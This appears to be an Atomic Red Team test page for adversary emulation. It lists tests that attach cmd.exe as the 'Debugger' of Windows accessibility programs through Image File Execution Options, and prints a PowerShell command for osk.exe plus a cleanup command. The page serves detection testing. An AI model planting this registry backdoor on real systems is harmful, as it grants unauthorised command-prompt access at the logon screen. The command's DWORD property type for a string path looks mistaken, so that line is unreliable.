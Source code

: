 - [Atomic Test #3 - Attaches Command Prompt As Debugger To Process - utilman](#atomic-test-3---attaches-command-prompt-as-debugger-to-process---utilman)

- [Atomic Test #4 - Attaches Command Prompt As Debugger To Process - magnify](#atomic-test-4---attaches-command-prompt-as-debugger-to-process---magnify)

- [Atomic Test #5 - Attaches Command Prompt As Debugger To Process - narrator](#atomic-test-5---attaches-command-prompt-as-debugger-to-process---narrator)

- [Atomic Test #6 - Attaches Command Prompt As Debugger To Process - DisplaySwitch](#atomic-test-6---attaches-command-prompt-as-debugger-to-process---displayswitch)

- [Atomic Test #7 - Attaches Command Prompt As Debugger To Process - AtBroker](#atomic-test-7---attaches-command-prompt-as-debugger-to-process---atbroker)


<br/>

## Atomic Test #1 - Attaches Command Prompt As Debugger To Process - osk
This allows adversaries to execute the attached process

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_executable | File You Want To Attach cmd To | String | osk.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 
```
$registryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe"
$Value = "C:\windows\system32\cmd.exe"
$Name = "Debugger"
IF(!(Test-Path $registryPath))
 {
  New-Item -Path $registryPath -Force
  New-ItemProperty -Path $registryPath -Name $name -Value $Value -PropertyType DWORD -Force
 }
ELSE
 {
  New-ItemProperty -Path $registryPath -Name $name -Value $Value
 }
```

#### Cleanup Commands:
```
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" /v Debugger /f
```
